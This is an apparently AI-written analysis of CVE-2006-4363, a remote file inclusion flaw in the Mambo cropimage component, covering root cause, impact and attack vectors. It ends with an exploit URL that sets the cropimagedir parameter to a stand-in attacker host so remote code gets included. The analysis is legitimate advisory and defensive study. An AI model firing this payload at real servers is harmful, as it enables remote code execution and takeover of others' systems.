 Based on the provided information, here's an analysis of CVE-2006-4363:

**Root Cause of Vulnerability:**

*   The vulnerability is a Remote File Inclusion (RFI) in the Mambo Component `cropimage` version 1.0.
*   The vulnerable code is located in `admin.cropcanvas.php`, specifically line 7.
*   The code uses `require_once $cropimagedir."class.cropinterface.php";` without proper sanitization of the `$cropimagedir` variable.

**Weaknesses/Vulnerabilities Present:**

*   **Remote File Inclusion (RFI):** The application is vulnerable to RFI because it directly includes a file based on user-controlled input (`$cropimagedir`). An attacker can provide a URL to an external malicious file which will be executed on the server.

**Impact of Exploitation:**

*   **Remote Code Execution (RCE):** By including a malicious file from a remote server, an attacker can achieve remote code execution on the target server. This allows for full control over the web server including potential data exfiltration, defacement, or further attacks within the network.

**Attack Vectors:**

*   **HTTP GET Parameter:** The attacker provides a URL to a malicious file through the `cropimagedir` parameter in the URL.

**Required Attacker Capabilities/Position:**

*   **Network Access:** The attacker needs to be able to send HTTP requests to the vulnerable server.
*   **Malicious File Hosting:** The attacker must have a server to host the malicious file that will be included by the vulnerable application.

**Exploit Example:**

```
http://www.site.com/[path]/administrator/components/com_cropimage/admin.cropcanvas.php?cropimagedir=http://evil_scripts?
```
This URL shows the attacker setting the `cropimagedir` parameter to point to an external malicious script at `http://evil_scripts`.